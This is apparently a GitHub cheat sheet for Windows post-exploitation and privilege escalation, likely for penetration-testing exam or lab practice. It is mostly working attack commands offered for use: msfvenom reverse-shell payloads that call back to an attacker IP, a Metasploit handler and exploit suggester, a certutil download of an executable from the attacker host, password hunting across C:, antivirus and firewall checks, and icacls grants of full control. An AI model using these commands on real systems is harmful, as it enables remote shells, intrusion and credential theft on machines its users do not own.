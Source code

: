 # Metasploit Windows Reverse Shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4567 -f aspx > letmein.aspx 

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

```
# Manual Windows Reverse Shell
```
python3 -m http.server

#to get reverse shell from your kali
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4567 -f aspx > letmein.aspx 

msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4567 

cd C:\Windows\Temp
certutil -urlcache -f http://YOUR_IP:PORT/filename.exe renamed.exe
```
# Metasploit Windows suggester
```
background

use post/multi/recon/local_exploit_suggester

run SESSION=1
```


# Windows System Enumeration 
```
systeminfo

#32bit ? 64bit ? 68bit ?
wmic os get osarchitecture

systeminfo | findstr /b /c:"OS Name" /c:"OS Version" /c:"System Type"

wmic qfe

wmic qfe Caption,Description,HotFixID,InstalledOn

wmic logicaldisk

wmic logicaldisk get caption,description,providername

wmic logicaldisk get caption
```

# Windows User Enumeration 
```
whoami

whoami /priv

whoami /groups

net user

net user jack

net localgroup

net localgroup administrators
```

# Windows Network Enumeration 
```
ipconfig

ipconfig /all

#Check Incoming / Outgoing Network Traffic
arp -a

#Check route table
route print

#Check open ports
netstat -ano
```

# Windows Password Hunting
```
#find 'password' in current directory with extension of txt,ini and config
findstr /si password *.txt *.ini *.config

#find 'password' in whole C: directory
dir /s C:\* | findstr /i "password"
```

# AV Enumeration
```
#Check Window Defender is up or down
sc query windefend

#Check running services
sc queryx type= service

#Check FireWall Status
netsh advfirewall firewall dump
netsh firewall show state 

#Check FireWall configuration
netsh firewall show config
```

# Read Permissions
```
#possible if user is also admin
icacls C:\Users\Administrator\Desktop\root.txt /grant username:F

icacls C:\Windows\System32\net.exe /grant username:username:F

"F" for Full control, "M" for Modify, "R" for Read, "W" for Write, "X" for Execute

```
# Finding exe files
```
where /R c:\windows bash.exe
where /R c:\windows wsl.exe
```

```
# References
```
https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation

https://github.com/SecWiki/windows-kernel-exploits
```
